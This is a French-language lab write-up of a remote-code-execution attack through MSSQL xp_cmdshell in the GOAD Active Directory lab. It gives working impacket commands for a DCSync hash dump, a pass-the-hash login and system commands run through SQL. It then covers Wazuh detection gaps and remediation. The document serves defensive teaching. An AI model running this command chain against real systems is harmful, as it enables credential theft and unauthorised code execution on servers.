


# ⚔️ Attaque 10 — MSSQL (xp_cmdshell RCE)

| | |
|---|---|
| **Catégorie** | Lateral Movement / Execution |
| **MITRE ATT&CK** | [T1210](https://attack.mitre.org/techniques/T1210/) · [T1059.003](https://attack.mitre.org/techniques/T1059/003/) (xp_cmdshell) |
| **Fiche théorique** | [`../../docs/05-lateral-movement/`](../../docs/) |
| **Cible** | `CASTELBLACK\SQLEXPRESS` (SRV02 · 192.168.56.22) — SQL Server 2019 |
| **Compte attaquant** | `sql_svc` (compte de service, **sysadmin**) — hash volé par DCSync |
| **Outil** | impacket — `mssqlclient.py`, `secretsdump.py` |
| **Statut détection Wazuh** | 🔴 Angle mort (audit de création de processus désactivé) |

---

## 1. 🧠 Description
Un serveur **MSSQL** dans un AD est bien plus qu'une base de données. Il expose des fonctions dangereuses :

| Fonction | Danger |
|---|---|
| **xp_cmdshell** | exécuter des **commandes système** via une requête SQL (RCE) 🚨 |
| **EXECUTE AS / impersonation** | se faire passer pour `sa` (admin SQL) |
| **Linked servers (trusted links)** | rebondir vers d'autres instances SQL |

MSSQL tourne sous un **compte de service** (`sql_svc`) qui est **sysadmin** sur l'instance. Obtenir `xp_cmdshell` = **exécuter du code sur le serveur** avec les privilèges de ce service.

## 2. 🎯 Prérequis
- Un accès réseau à l'instance MSSQL (port 1433).
- Un compte **sysadmin** sur l'instance — ici `sql_svc`, dont le hash a été récupéré par [DCSync](06-dcsync.md).

## 3. 💻 Exécution

### a) Reconnaissance avec un compte lambda
```bash
mssqlclient.py -windows-auth sevenkingdoms.local/tywin.lannister:powerkingftw135@192.168.56.22
```
Au prompt SQL : `enum_impersonate`, `enum_links`, `SELECT IS_SRVROLEMEMBER('sysadmin')`.
→ `tywin` n'est **pas** sysadmin (`0`) et ne peut impersonner personne. **Constat GOAD :** même `Domain Admin` n'est **pas** sysadmin ici (BUILTIN\Administrators retiré du rôle) — seul **`sql_svc`** l'est.

### b) Récupérer le hash du compte sysadmin `sql_svc` (DCSync)
```bash
secretsdump.py 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!@192.168.56.11' -just-dc-user sql_svc
```
→ `sql_svc:1121:...:84a5092f53390ea48d660be52b93b804:::`


### c) Se reconnecter en `sql_svc` (sysadmin) et exécuter des commandes
```bash
mssqlclient.py -windows-auth north.sevenkingdoms.local/sql_svc@192.168.56.22 -hashes :84a5092f53390ea48d660be52b93b804
```
Au prompt SQL :
```
SELECT IS_SRVROLEMEMBER('sysadmin');   -- renvoie 1
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell hostname & ipconfig
```



## 4. 📤 Résultat
`xp_cmdshell whoami` renvoie **`north\sql_svc`** et `hostname` renvoie **`castelblack`** → **exécution de commandes système confirmée** sur le serveur membre, via une simple requête SQL. **RCE = mouvement latéral** vers castelblack (un hôte non encore compromis directement).

## 5. 🛡️ Détection dans Wazuh — 🔴 angle mort

| Recherche (DQL) | Résultat | Lecture |
|---|---|---|
| `data.win.system.eventID:4688` | **0 hit** | audit de **création de processus non activé** → le `cmd.exe` est invisible |
| `data.win.eventdata.parentProcessName:*sqlservr*` | **0 hit** | aucune trace du `cmd.exe` lancé par SQL Server |
| `agent.name:castelblack` | **78 hits** | logs présents, mais **que du bruit** (logons normaux) |

**Event Windows concerné : `4688`** (création de processus) — le signal parfait (`cmd.exe` avec parent `sqlservr.exe`) mais **non collecté**.


Aucun processus enfant de `sqlservr.exe` non plus (l'audit de processus étant absent) :



castelblack remonte 78 événements sur la période — mais **que du bruit** (logons normaux), rien sur le RCE :


## 6. 🎓 Analyse & leçon
> Le RCE via `xp_cmdshell` est **totalement silencieux** dans le SIEM par défaut. Sans **audit de création de processus** (Event 4688) ni **Sysmon**, l'exécution de commandes par `sqlservr.exe` ne laisse aucune trace. La signature idéale — un `cmd.exe`/`whoami` enfant de `sqlservr.exe` — n'est simplement pas collectée.

👉 Pour détecter cette attaque : **activer l'audit 4688** (avec ligne de commande) ou **déployer Sysmon** (Event 1) sur les serveurs, puis alerter sur les processus enfants anormaux de `sqlservr.exe`. → objet de la **Phase 5**.

## 7. 🔧 Remédiation
- **Désactiver `xp_cmdshell`** (et le garder désactivé via une stratégie).
- Faire tourner le service SQL avec un compte à **privilèges minimaux** (pas sysadmin inutile, gMSA).
- **Activer l'audit de création de processus** (4688 + ligne de commande) / **Sysmon** et alerter sur les enfants de `sqlservr.exe`.
- Protéger les comptes de service (`sql_svc`) contre le Kerberoasting (mot de passe fort, gMSA).

---

⬅️ Retour à l'[index des attaques](../03-attaques.md)
